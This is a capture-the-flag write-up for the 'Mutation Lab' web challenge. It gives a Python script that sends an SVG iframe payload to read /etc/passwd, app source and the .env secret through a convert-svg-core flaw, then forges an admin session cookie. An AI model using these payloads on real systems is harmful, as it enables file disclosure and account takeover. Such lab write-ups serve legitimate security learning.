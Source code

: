 ```yaml
---
layout: post
title:  "HTB CTF - Mutation Lab writeup"
date:   2022-05-20 08:30:00
tags: ["ctf-writeup"]
author: "Alex Ward"
---
```


This was a "blind" web challenge, in that no source was provided.

After initially dismissing this challenge because it was "blind"
(no source code), I revisited it as the remaining challenges got harder.

The site greets you with a login portal where you can register a user.

![](https://i.postimg.cc/XJKRJKgQ/Pasted-image-20220518220842.png)

After creating a user and logging in, the main application allows you
to play with some cells and "tadpoles" and export them as images.

![](https://i.postimg.cc/FsHMrLkV/Pasted-image-20220518221051.png)

The bottom of the page shows the target

> Only lab admin is allowed to view the confidential records

Checking dev tools, to see what the requests to generate the images
looked like, revealed an application error. The generation of the "tadpoles"
image sent two requests, but one didn't contain any data:

```json
{"svg":null}
```

This request had a stack trace as the response:

```plain
TypeError: Cannot read properties of null (reading 'indexOf')  
    at Converter.[convert] (/app/node_modules/convert-svg-core/src/Converter.js:191:25)  
    at Converter.convert (/app/node_modules/convert-svg-core/src/Converter.js:114:40)  
    at API.convert (/app/node_modules/convert-svg-core/src/API.js:80:32)  
    at /app/routes/index.js:61:21
```

A quick web search to confirm this is an attack vector, and we see a directory
traversal vulnerability in `convert-svg-core`:
https://snyk.io/vuln/npm:convert-svg-core. Synk even provided a proof of concept snippet!

Writing some Python code to confirm the vulnerability:

```python
import webbrowser
import requests

REMOTE = "http://HOST:PORT"
PAYLOAD = """
<svg-dummy></svg-dummy>
<iframe src="file:///etc/passwd"" width="100%" height="1000px"></iframe>
<svg viewBox="0 0 0 0" height="1000" width="1000" xmlns="http://www.w3.org/2000/svg">
  <text></text>
</svg>
"""

res = requests.post(
    f"{REMOTE}/api/export",
    json={
        "svg": PAYLOAD
    })

image = f"{REMOTE}{res.json()['png']}"

print(image)
webbrowser.open_new_tab(image)
```

![](https://i.postimg.cc/90JsPWK9/Pasted-image-20220518222217.png)

For some time I was stuck. I tried `/flag`, `/flag.txt`, `/secret.txt`,
but no luck. I wasn't sure how I could extract any information without
knowing a little about the file structure.

After some searching, one site suggested `/proc/self/envion` to get
the current processes environment variables. It came up empty.

In my own shell I tried `/proc/self/<TAB>` and saw `cwd`! A way to
access the current process's working directory!

![](https://i.postimg.cc/kGnktV19/Pasted-image-20220518222651.png)

> 💭 (In hindsight, I had the original error message that told me
> exactly where the app was - but I like this way better)

```plain
/proc/self/cwd/index.js
/proc/self/cwd/routes/index.js
/proc/self/cwd/middleware/AuthMiddleware.js
```

These files told me a few things...

- It was an express app
- Logging in set the username on a "session"
- The session was [cookie-session](http://expressjs.com/en/resources/middleware/cookie-session.html)
- The `AuthMiddleware` only checked for the existence of a "username" property

The last piece of the puzzle was an environment variable "SESSION_SECRET_KEY",
which was conveniently loaded from `/app/.env`.

Knowing the secret key meant that I could generate my own session cookies with
any username I wanted.

But first, I suspected the admin username was just "admin", but I wanted to be
sure, so I sent a request to register a user with that name:

```python
import requests

REMOTE = "http://139.59.163.221:30651/api/register"

res = requests.post(REMOTE,
    json={
        "username": "admin",
        "password": "aaa",
    }
)

print(res.json())
# {'message': 'This UUID is already registered!'}
```

To generate the cookie, the best approach I could think was just starting an
express server that sets the cookie.

```js
var cookieSession = require('cookie-session')
var express = require('express')

var app = express()


app.use(cookieSession({
  name: 'session',
  keys: ['<SECRET>']
}))

app.get('/', function (req, res, next) {
  req.session.username = "admin"

  res.end("got 'em")
})

app.listen(3000)
```

I did some browser shuffling -> open http://localhost:3000 -> get the cookie
-> open dev tools -> manually change the cookie host to the target host ->
visit target site -> get logged in as admin!

![](https://i.postimg.cc/h4sFRrvG/Pasted-image-20220518224229.png)
